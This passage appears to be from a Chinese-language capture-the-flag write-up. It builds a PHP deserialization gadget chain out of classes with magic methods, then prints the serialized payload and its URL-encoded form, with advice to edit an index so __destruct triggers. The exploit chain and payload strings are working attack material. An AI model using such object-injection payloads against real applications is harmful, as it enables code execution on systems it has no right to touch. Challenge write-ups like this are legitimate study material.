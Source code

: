```
    }
    public function __toString() {
        return $this->object->string;
    }
}
class second {
    public $filename;
    protected function addMe() {
        return "Wow you have sovled".$this->filename;
    }
    public function __call($func, $args) {
        call_user_func([$this, $func."Me"], $args);
    }
}
class third {
    private $string;
    public function __construct($string) {
        $this->string = $string;
    }
    public function __get($name) {
        $var = $this->$name;
        $var[$name]();
    }
}
  $a=new one();
  $a->object=new second();
  $a->object->filename=new one();
  $a->object->filename->object=new third(['string'=>[new one(),'MeMeMe']]);
  $b=null;
  $c=array($a,$b);
echo serialize($c).PHP_EOL;

```

得到payload后，还需要改动下，那个1改为0，触发`__destruct`

```
a:2:{i:0;O:3:"one":2:{s:6:"object";O:6:"second":1:{s:8:"filename";O:3:"one":2:{s:6:"object";O:5:"third":1:{s:13:" third string";a:1:{s:6:"string";a:2:{i:0;O:3:"one":2:{s:6:"object";N;s:9:"year_parm";a:1:{i:0;s:10:"Happy_func";}}i:1;s:6:"MeMeMe";}}}s:9:"year_parm";a:1:{i:0;s:10:"Happy_func";}}}s:9:"year_parm";a:1:{i:0;s:10:"Happy_func";}}i:0;N;}
```

然后`urlencode`

```
a%3A2%3A%7Bi%3A0%3BO%3A3%3A%22one%22%3A2%3A%7Bs%3A6%3A%22object%22%3BO%3A6%3A%22second%22%3A1%3A%7Bs%3A8%3A%22filename%22%3BO%3A3%3A%22one%22%3A2%3A%7Bs%3A6%3A%22object%22%3BO%3A5%3A%22third%22%3A1%3A%7Bs%3A13%3A%22%00third%00string%22%3Ba%3A1%3A%7Bs%3A6%3A%22string%22%3Ba%3A2%3A%7Bi%3A0%3BO%3A3%3A%22one%22%3A2%3A%7Bs%3A6%3A%22object%22%3BN%3Bs%3A9%3A%22year_parm%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A10%3A%22Happy_func%22%3B%7D%7Di%3A1%3Bs%3A6%3A%22MeMeMe%22%3B%7D%7D%7Ds%3A9%3A%22year_parm%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A10%3A%22Happy_func%22%3B%7D%7D%7Ds%3A9%3A%22year_parm%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A10%3A%22Happy_func%22%3B%7D%7Di%3A0%3BN%3B%7D
```

![image-20220301201206693](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202203012012790.png)
